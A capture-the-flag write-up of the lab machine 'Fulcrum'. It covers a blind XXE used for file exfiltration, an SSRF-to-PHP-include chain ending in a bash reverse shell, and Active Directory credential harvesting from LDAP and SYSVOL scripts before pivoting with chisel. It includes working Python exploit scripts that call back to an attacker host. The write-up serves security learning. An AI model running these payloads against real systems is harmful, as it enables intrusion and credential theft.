

# Fulcrum

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.136.254                
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-05 04:59 EST
Warning: 10.129.136.254 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.136.254
Host is up (0.059s latency).
Not shown: 65173 closed tcp ports (conn-refused), 356 filtered tcp ports (no-response)
PORT      STATE SERVICE
4/tcp     open  unknown
22/tcp    open  ssh
80/tcp    open  http
88/tcp    open  kerberos-sec
9999/tcp  open  abyss
56423/tcp open  unknown
```

Port 4 was open, which was new.

Detailed scan:

```
$ nmap -p 4,80,88,9999,56423 -sC -sV --min-rate 3000 10.129.136.254 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-05 05:01 EST
Nmap scan report for 10.129.136.254
Host is up (0.031s latency).

PORT      STATE SERVICE VERSION
4/tcp     open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
80/tcp    open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 502 Bad Gateway
88/tcp    open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: phpMyAdmin
9999/tcp  open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 502 Bad Gateway
56423/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: Fulcrum-API Beta
|_http-title: Site doesn't have a title (application/json;charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

Port 80 and 9999 had bad gateways, so I was left with port 4, port 88 and port 56423.

### Web Enum -> XXE LFI

Port 4 had a really basic page:


The link was to `http://10.129.136.254:4/index.php?page=home`, which looked vulnerable for LFI. 

However, the page was not returning anything at all, not even an error message. SSRF didn't work as well, so this isn't RFI.

Running a `gobuster` scan with the `.php` extension returned 3 results:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php -k -u http://10.129.136.254:4  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.136.254:4
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home.php             (Status: 200) [Size: 312]
/index.php            (Status: 200) [Size: 113]
/index.php            (Status: 200) [Size: 113]
/upload.php           (Status: 200) [Size: 54]
```

`upload.php` returned nothing. Moving on!


Port 88 had a phpMyAdmin login:



I had no credentials, and default credentials didn't work. Moving on!

Port 56423 was more interesting:


Based on `nmap`, this was an API. I started enumerating any other endpoints possible. This whole API was custom, since there weren't wasn't anything I could find.

As such, I resorted to just playing around with it, sending POST requests with random variables to see what it would load. 

Sending regular parameters did not work, and sending JSON did nothing either. I couldn't find out what to do, so I referred to a writeup (too guessy).

Saw that I had to use `<Heartbeat><Ping>Pong</Ping></Heartbeat>` to trigger a different response:


From here, XXE should be the path forward. This seems to be a blind injection since this  thing shows nothing but PingPong. 

Using this payload triggers a callback on my machine:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.19/hiiamxxe"> %xxe;]>
```


Since this is blind XXE with SSRF, I can try to exfiltrate data out. I used the OOB with DTD and PHP filter method method from PayloadAllTheThings.

This involved me creating this `dtd.xml` file:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.19:8000/dtd.xml?%data;'>">
```

Afterwards, the payload to send to the website is:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.19/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Basically, this makes the website retrieve an external DTD, which loads the filename I want, and then sends it to another port:


This can be scripted using some Python `sockets` and `requests`.

Firstly, create the file `dtd.xml` with the filename I want to read. Afterwards, use a thread to open a port 8000 and listen for connections indefinitely. 

Then, just retrieve the output from the socket, parsed using regex and decoded from `base64`. This took a bit longer to code than I would like, but it felt great making it work with sockets. 

```python
import socket
import base64
import re
import time
import random

HOST = "10.10.14.19"
PORT = 5565
TARGET_HOST = "10.129.136.254"
TARGET_PORT = 56423

# 4 seconds timeout, else file not found.
socket.timeout(4)

xxe = """
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.19/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

"""

request = f"""POST / HTTP/1.1
Host: {TARGET_HOST}:{TARGET_PORT}
Content-Length: {len(xxe)}
"""

final_req = (request + xxe).replace("\n","\r\n")
final_req = final_req.encode()

while True:
	filename = input("Enter file to read: ")

	dtd = f"""<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource={filename}">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.19:{PORT}/dtd.xml?%data;'>">"""

	dtd_file = open("dtd.xml", "w")
	dtd_file.write(dtd)
	dtd_file.close()

	rec_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	rec_sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	rec_sock.bind((HOST, PORT))
	rec_sock.listen()	

	send_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	send_sock.connect((TARGET_HOST, TARGET_PORT))
	send_sock.send(final_req)
	send_sock.close()

	data_rec = b''
	conn, addr = rec_sock.accept()
	conn.settimeout(1)
	try:
		while True:
			data = conn.recv(1024)
			if not data:
				break
			data_rec += data

	except socket.timeout:
		pass

	rec_sock.close()
	data_rec = data_rec.decode('utf-8')

	match = re.search(r"GET \/dtd.xml\?(.*) HTTP\/1.0", data_rec)
	if not match:
		print("[-] no such file exists D:")
		continue
	encoded = match[1]

	encoded = encoded.encode()
	result = base64.b64decode(encoded).decode('utf-8').replace("\\n", "\n")
	print(result)
```

There's a short delay in-between files, but otherwise it works. Just start a Python HTTP server in another terminal, and there will be GET requests sent to that server. 

### File Enum -> Port 4 LFI

For this, `nmap` stated that this was an `nginx` server, so I took a look at those files. However, reading `/etc/nginx/sites-available/default` took too long.

A lucky guess gave me `/var/www/api/index.php` as a readable file:

```php
<?php
        header('Content-Type:application/json;charset=utf-8');
        header('Server: Fulcrum-API Beta');
        libxml_disable_entity_loader (false);
        $xmlfile = file_get_contents('php://input');
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile,LIBXML_NOENT|LIBXML_DTDLOAD);
        $input = simplexml_import_dom($dom);
        $output = $input->Ping;
        //check if ok
        if($output == "Ping")
        {
                $data = array('Heartbeat' => array('Ping' => "Ping"));
        }else{
                $data = array('Heartbeat' => array('Ping' => "Pong"));
        }
        echo json_encode($data);
?>
```

### RCE -> Webserver

Now that I had a working LFI script, I wanted to view the service on port 4. Guessing led me to `/var/www/uploads/index.php`.

```php
<?php
if($_SERVER['REMOTE_ADDR'] != "127.0.0.1")
{
        echo "<h1>Under Maintance</h1><p>Please <a href=\"http://" . $_SERVER['SERVER_ADDR'] . ":4/index.php?page=home\">try again</a> later.</p>";
}else{
        $inc = $_REQUEST["page"];
        include($inc.".php");
}
?>
```

It only allows requests from `localhost` to use `include`. Conveniently, XXE + SSRF was used to get here, so RCE is easy since `include` executes PHP code and allows for the `http://` wrapper.

The exploit path is:

1. Use XXE SSRF to visit port 4.
2. Set `page` to a malicious PHP file hosted on my machine.

Here's the exploit script:

```python
import socket

HOST = "10.10.14.19"
PORT = 4444
FILENAME = "evil"
TARGET_HOST = "10.129.136.254"
TARGET_PORT = 56423

php_rev = f"""<?php
exec("bash -c 'bash -i >& /dev/tcp/{HOST}/{PORT} 0>&1'")
?>"""
php_file = open(FILENAME + ".php", "w")
php_file.write(php_rev)
php_file.close()

xxe = f"""
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://localhost:4/?page=http://{HOST}/{FILENAME}">
%sp;
%param1;
]>
<r>&exfil;</r>

"""

request = f"""POST / HTTP/1.1
Host: {TARGET_HOST}:{TARGET_PORT}
Content-Length: {len(xxe)}
"""

final_req = (request + xxe).replace("\n","\r\n")
final_req = final_req.encode()

send_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
send_sock.connect((TARGET_HOST, TARGET_PORT))
send_sock.send(final_req)
send_sock.close()
```




I included a zero-click exploit script at the end!



## WebServer -> File

Surprising to see AD here.

### Powershell Creds -> WebUser Pivot

First thing I noticed was this `.ps1` file in the folder the shell spawned in:

```
www-data@fulcrum:~/uploads$ ls -la
total 24
drwxr-xr-x 2 root root 4096 Oct  5  2017 .
drwxr-xr-x 6 root root 4096 May  8  2022 ..
-rw-r--r-- 1 root root  714 Oct  4  2017 Fulcrum_Upload_to_Corp.ps1
-rw-r--r-- 1 root root  321 Oct  4  2017 home.php
-rw-r--r-- 1 root root  255 Oct  5  2017 index.php
-rw-r--r-- 1 root root  113 Oct  4  2017 upload.ph
```

Here are the contents:

```powershell
$ cat Fulcrum_Upload_to_Corp.ps1 
# TODO: Forward the PowerShell remoting port to the external interface
# Password is now encrypted \o/

$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA=' 
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
```

This is a Powershell credential, and it can be decoded. This looked like Active Directory, and that there were other machines present. A quick check on `ip route` confirms this.

```
www-data@fulcrum:~/uploads$ ip route
default via 10.129.0.1 dev ens160 
10.129.0.0/16 dev ens160 proto kernel scope link src 10.129.136.254 
192.168.122.0/24 dev virbr0 proto kernel scope link src 192.168.122.1 
```

A quick `ping` sweep reveals there was only one other machine accessible:

```
$ for i in $(seq 254); do ping 192.168.122.$i -c1 -W1 & done | grep from
64 bytes from 192.168.122.1: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 192.168.122.228: icmp_seq=1 ttl=128 time=16.9 ms
```

I decoded this credential using `pwsh`. All you have to do is just run the entire script from `$1` to `$5`:


Then, use `$5.GetNetworkCredential().password`:

```
PS> $5.GetNEtworkCredential().password                                                     
M4ng£m£ntPa55
```

I  used `chisel` and `proxychains` to start pivoting:

```
On Fulcrum:
./chisel client 10.10.14.19:9050 R:socks

On Kali:
./chisel server --port 9050 --reverse
```

From here, I downloaded the `nmap` binary to scan the ports on that one machine that is reachable, just to see what protocol is to be used with the credentials.

```
$ ./nmap_binary -p- --min-rate 5000 192.168.122.228

Nmap scan report for 192.168.122.228
Host is up (0.022s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  unknown
```

`evil-winrm` with `proxychains` is the next step since port 5985 is open.

```
# on kali
$ ./chisel server --port 8000 --reverse

# on fulcrum
./chisel client 10.10.14.19:8000 R:socks
```


Can use `proxychains -q` to remove those debug messages if you desire.

### AD Enum -> BTables Creds

This user had no particularly interesting permissions, or files in their directory.

Within the `C:\inetpub\wwwroot` folder, there were some IIS files:

```
*Evil-WinRM* PS C:\inetpub\wwwroot> ls


    Directory: C:\inetpub\wwwroot


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/8/2022   2:46 AM            703 iisstart.htm
-a----         5/8/2022   2:46 AM          99710 iisstart.png
-a----        2/12/2022  11:42 PM           5252 index.htm
-a----        2/12/2022  11:42 PM           1280 web.config
```

`web.config` had some interesting stuff:

```xml
<connectionStrings>
        <add connectionString="LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local" name="ADServices" />
    </connectionStrings>
    <system.web>
        <membership defaultProvider="ADProvider">
            <providers>
                <add name="ADProvider" type="System.Web.Security.ActiveDirectoryMembershipProvider, System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" connectionStringName="ADConnString" connectionUsername="FULCRUM\LDAP" connectionPassword="PasswordForSearching123!" attributeMapUsername="SAMAccountName" />
            </providers>
        </membership>
    </system.web>
```

There's a password here for LDAP here. There was also mention of `dc.fulcrum.local`. The current machine I was on was called `webserver` (based on `hostname` output).

Anyways, I relied on `PowerView.ps1` to enumerate the domain. When I first tested it, all commands failed with this error:

```
C:\users\webuser> Get-NetUser -SPN
Exception calling "FindAll" with "0" argument(s): "Unknown error (0x80005000)"
At C:\users\webuser\power.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : COMException
```

Perhaps I needed to use the credentials from earlier to query LDAP:

```powershell
$pass = ConvertTo-SecureString 'PasswordForSearching123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('FULCRUM\ldap', $pass)
```

This solved the error earlier, and I could view the users present:

```
C:\users\webuser> Get-DomainUser -Properties name, MemberOf -Credential $cred | fl


name     : Administrator
memberof : {CN=Group Policy Creator Owners,CN=Users,DC=fulcrum,DC=local, CN=Domain Admins,CN=Users,DC=fulcrum,DC=local, CN=Enterprise Admins,CN=Users,DC=fulcrum,DC=local, CN=Schema Admins,CN=Users,DC=fulcrum,DC=local...}

name     : Guest
memberof : CN=Guests,CN=Builtin,DC=fulcrum,DC=local

name     : krbtgt
memberof : CN=Denied RODC Password Replication Group,CN=Users,DC=fulcrum,DC=local

name : ldap

name     : 923a
memberof : CN=Domain Admins,CN=Users,DC=fulcrum,DC=local

name : BTables
```

`923a` was a domain admin, and `BTables` was another user. Using `Get-DomainUser`shows credentials for `BTables`:

```
samaccountname        : BTables
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 5/9/2022 2:48:46 PM
instancetype          : 4
usncreated            : 12628
objectguid            : 8e5db1d3-d28c-4aa1-b49d-f5f8216959fe
sn                    : BTables
info                  : Password set to ++FileServerLogon12345++
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=fulcrum,DC=local
dscorepropagationdata : 1/1/1601 12:00:00 AM
givenname             : BTables
c                     : UK
lastlogon             : 5/9/2022 7:48:46 AM
streetaddress         : unknown
badpwdcount           : 0
cn                    : BTables
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 5/8/2022 7:02:49 AM
primarygroupid        : 513
pwdlastset            : 5/8/2022 12:02:49 AM
usnchanged            : 16404
lastlogoff            : 12/31/1600 4:00:00 PM
postalcode            : 12345
```

`++FileServerLogon12345++` was the password. However, this user was not present on my current machine.

### Network Enum -> Pivot to File

I enumerated all computer objects within this network, which revealed 2 more.

```
C:\users\webuser> Get-NetComputer -Credential $cred | select samaccountname,
operatingsystem

samaccountname operatingsystem
-------------- ---------------
DC$            Windows Server 2019 Standard
FILE$          Windows Server 2019 Standard
```

I used `ping` to see their IPs:

```
C:\users\webuser> ping -4 -n 1 DC

Pinging DC [192.168.122.130] with 32 bytes of data:

C:\users\webuser> ping -4 -n 1 FILE

Pinging FILE.local [192.168.122.132] with 32 bytes of data:
```

I used `chisel.exe` to forward port 5985 from `FILE`, since the password was kinda obvious in telling me the next step.

```
# on kali
./chisel server --port 5000 --reverse

# on webserver
.\chisel.exe client 10.10.14.19:5000 R:5985:192.168.122.132:5985
```

Then, I could `evil-winrm` in and finally grab the user flag:


## File -> DC

### Enumeration -> Shares

This `FILE` server was empty. Most of the file system was just default Windows. As such, I tried to use the credentials I had to access the shares on the DC, which was something the CRTE lab taught me to do.

```
C:\Users> net use \\dc.fulcrum.local\netlogon /user:fulcrum\btables ++FileServerLogon12345++

The command completed successfully.

C:\Users> net view \\dc.fulcrum.local\
Shared resources at \\dc.fulcrum.local\

Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share
SYSVOL      Disk           Logon server share
The command completed successfully.
```

These were default shares, but honestly there was nothing else to look at anymore, so I went for it.

### Shares Enum -> Admin Creds

The `sysvol` share had a ton of `.ps1` files:

```
C:\Users> ls \\dc.fulcrum.local\sysvol\fulcrum.local\scripts


    Directory: \\dc.fulcrum.local\sysvol\fulcrum.local\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/12/2022  10:34 PM            340 00034421-648d-4835-9b23-c0d315d71ba3.ps1
-a----        2/12/2022  10:34 PM            340 0003ed3b-31a9-4d8f-a152-a234ecb522d4.ps1
-a----        2/12/2022  10:34 PM            340 0010183b-2f84-4d4a-9490-b5ae922e3ba1.ps1
```

I read one of them, and noticed the `user`:

```powershell
# Map network drive v1.0
$User = 'a2ec'
$Pass = '@fulcrum_a92647a8c8e3_$' | ConvertTo-SecureString -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ($User, $Pass)
New-PSDrive -Name '\\file.fulcrum.local\global\' -PSProvider FileSystem -Root '\\file.fulcrum.local\global\' -Persist -Credential $Cred
```

Using this, I can try to find `923a`, which was a valid domain admin. 

```powershell
C:\Users> Select-String -Path "\\dc.fulcrum.local\sysvol\fulcrum.local\scripts\*.ps1" -Pattern 923a

\\dc.fulcrum.local\sysvol\fulcrum.local\scripts\a1a41e90-147b-44c9-97d7-c9abb5ec0e2a.ps1:2:$User = '923a'

C:\Users> type \\dc.fulcrum.local\sysvol\fulcrum.local\scripts\a1a41e90-147b-44c9-97d7-c9abb5ec0e2a.ps1
# Map network drive v1.0
$User = '923a'
$Pass = '@fulcrum_bf392748ef4e_$' | ConvertTo-SecureString -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ($User, $Pass)
New-PSDrive -Name '\\file.fulcrum.local\global\' -PSProvider FileSystem -Root '\\file.fulcrum.local\global\' -Persist -Credential $Cred
```

Great! Now, I had valid credentials. Using this, I can read the flag:

```powershell
$pass = ConvertTo-SecureString '@fulcrum_bf392748ef4e_$' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("fulcrum\923a", $pass)
Invoke-Command -Computer dc.fulcrum.local -ScriptBlock { cat C:/users/administrator/desktop/root.txt } -Credential $cred
```


To get a shell, I did the following:

```powershell
Invoke-Command -Computer dc.fulcrum.local -ScriptBlock { wget 10.10.14.19/chisel_1.7.7_windows_amd64 -O C:/Windows/Tasks/chisel.exe } -Credential $cred
Invoke-Command -Computer dc.fulcrum.local -ScriptBlock { C:/Windows/Tasks/chisel.exe client 10.10.14.19:6000 R:9999:192.168.122.130:5985 } -Credential $cred
```

Then, I can `evil-winrm` in as the `923a` user:


Fun box! 

## Noclick Scripts

Just made this for fun.

### Initial RCE

```python
import threading
import http.server
import socketserver
import requests
import socket

HOST = "10.10.14.19"
PORT = 5555
FILENAME = "evil"
TARGET_HOST = "10.129.136.254"
TARGET_PORT = 56423

# 4 seconds timeout, else file not found.
socket.timeout(4)

php_rev = f"""<?php
exec("bash -c 'bash -i >& /dev/tcp/{HOST}/{PORT} 0>&1'")
?>"""
php_file = open(FILENAME + ".php", "w")
php_file.write(php_rev)
php_file.close()

xxe = f"""
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://localhost:4/?page=http://{HOST}/{FILENAME}">
%sp;
%param1;
]>
<r>&exfil;</r>

"""

request = f"""POST / HTTP/1.1
Host: {TARGET_HOST}:{TARGET_PORT}
Content-Length: {len(xxe)}
"""

final_req = (request + xxe).replace("\n","\r\n")
final_req = final_req.encode()

def start_server():
	port = 80
	handler = http.server.SimpleHTTPRequestHandler
	with socketserver.TCPServer(("", port), handler) as httpd:
		print(f"Server started on port {port}")
		httpd.serve_forever()

def send_payload():
	send_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	send_sock.connect((TARGET_HOST, TARGET_PORT))
	send_sock.send(final_req)
	send_sock.close()

def main():
	server_thread = threading.Thread(target=start_server)
	payload_thread = threading.Thread(target=send_payload)
	server_thread.start()
	payload_thread.start()

    server_thread.join()

main()
```

The same can be done for the LFI. 